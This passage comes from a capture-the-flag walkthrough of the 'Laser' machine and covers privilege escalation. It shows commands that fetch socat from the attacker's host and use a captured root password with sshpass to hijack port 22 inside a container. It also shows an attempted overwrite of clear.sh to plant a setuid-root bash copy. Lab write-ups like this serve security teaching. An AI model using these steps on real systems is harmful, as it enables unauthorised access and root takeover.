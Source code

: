 

The last line in the config sets `StrictHostKeyChecking` to `no`, which
disables this check, and is a big hint that this attack could work.

#### Redirect 22

I'll use Python HTTP Server to host [static
socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)
and upload it to Laser:



    solr@laser:/tmp$ wget 10.10.14.9/socat
    --2020-09-13 16:34:26--  http://10.10.14.9/socat
    Connecting to 10.10.14.9:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 375176 (366K) [application/octet-stream]
    Saving to: ‘socat’

    socat                                                        100%[==================================================>] 366.38K  --.-KB/s    in 0.08s   

    2020-09-13 16:34:27 (4.54 MB/s) - ‘socat’ saved [375176/375176]



It turns out the container is being reset to a clean start every couple
minutes. So I did the next part in a single line so I could easily
recover when it does:



    solr@laser:/tmp$ sshpass -p c413d115b3d87664499624e7826d8c5a scp socat root@172.18.0.2:/tmp/socat; sshpass -p c413d115b3d87664499624e7826d8c5a ssh root@172.18.0.2 'chmod +x /tmp/socat; service ssh stop; /tmp/socat tcp-listen:22,reuseaddr,fork tcp:172.18.0.1:22'
     * Stopping OpenBSD Secure Shell server sshd
       ...done.



That breaks into a few commands:

-   copies socat to the container using `scp`
-   connects via `ssh` and runs:
    -   `chmod +x /tmp/socat` - make `socat` executable
    -   `service stop ssh` - stop the SSH server listening on 22
    -   `/tmp/socat tcp-listen:22,reuseaddr,fork tcp:172.18.0.1:22` -
        start tunnel back to host

If I touch `/tmp/clear.sh`, and then wait for the minute to roll over,
it will be gone.

#### Overwrite clear.sh - Fail

My first attempt was to watch for the existence of `clear.sh` and then
change it. This loop will do that:



    solr@laser:/tmp$ while [ ! -f /tmp/clear.sh ]; do echo -en "\r$(date)"; done; ls -l clear.sh; echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf' > clear.sh
    Sun 13 Sep 2020 05:12:03 PM UTC-rwxr-xr-x 1 root root 59 Sep 13 17:12 clear.sh
    -bash: clear.sh: Permission denied
